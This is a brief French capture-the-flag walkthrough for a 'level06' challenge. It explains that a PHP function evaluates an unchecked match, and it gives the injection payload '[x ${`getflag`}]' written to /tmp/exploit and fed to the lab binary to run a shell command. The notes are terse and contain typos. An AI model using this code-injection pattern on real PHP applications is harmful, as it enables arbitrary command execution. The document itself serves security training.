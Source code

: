 echo '[x ${`getflag`}]' >  /tmp/exploit

cat /tmp/exploit

./level06 /tmp/exploit

mettre le .php dans un reverce php (sur internet)

voir que x est remplacer par un . mais n'est jamais check et que y utilise le resultat de x, du coup si il y a une erreur nous pouvons injecter du code directement dans la focntion y, par exemple avec le code [x ${`getflag`}]

echo '[x ${`getflag`}]' >  /tmp/exploit

regardon que notre fichier c'est bien créer 

cat /tmp/exploit

puis lancons notre programme 

./level06 /tmp/exploit
